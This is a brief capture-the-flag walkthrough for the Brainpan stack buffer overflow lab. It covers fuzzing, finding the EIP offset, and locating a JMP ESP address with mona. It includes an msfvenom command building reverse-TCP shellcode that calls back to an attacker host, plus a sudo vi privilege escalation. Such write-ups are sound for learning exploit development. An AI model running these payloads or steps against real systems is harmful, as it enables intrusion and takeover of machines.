 # brainpan_buffer_overflow
this is a very good ctf to understand linux and windows both stack based bufferoverflow

1. use fuzze .py  --  get size where it creashes
2. create pattern --> pattern_create -l 600
3. get the eip from immunity -- 72413372 
4.  use pattern_offset with -l 600 -q 72413372 -- 520
5. fire bad chars to find what is working inside
6. open mona modules : - !mona modules  - download mona and paste in .wine/drive_c/program file x86/immuntity/pycommands

check out our file is having protections or not if not then pic the address

7. find address --
 Address=0BADF00D
 Message= 0x31170000 | 0x31176000 | 0x00006000 | False  | False   | False |  False   | False  | -1.0- [brainpan.exe] (Z:\root\Downloads\brainpan.exe)

8. open nasm shell - JMP ESP -- FFE4

9. find JMP ESp in mona -- !mona find -s “\xff\xe4” -m modules if it is not working then

close the mona modules and in immuntity go to view execcutables modules -- right click on the module and click on dump data in cpu then press ctrl +f and type JMP ESP

whoop! we go the address --  311712F3   . FFE4           JMP ESP

use these exploits 


#msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.31.148 LPORT=1337 -f c -a x86 --platform linux -b "\x00" -e x86/shikata_ga_nai


you got  a kali shell perfect  coz i am running the downloaded exe in my kali . now its time to execute it on the actual target 

now change the address of breainpain machine as 192.168.31.149

send you got a shell but not first time with nc 

so try multi handler 
( protip : -- its allowed in OSCP if you are in fear not to use only meterperter is used at once -- other wise multihandler , msfvenom , auxilary you can use,also scripts )


type sudo -l 

use command manual vi 
!bin/bash 

---------------------------------------

again get a shell and find first user accessisable directory files 
find validate and use gdb prepare a exploit 

-----

i will also uploadloading the entire process at my blog - https://blog.certcube.com

regards,
Naresh
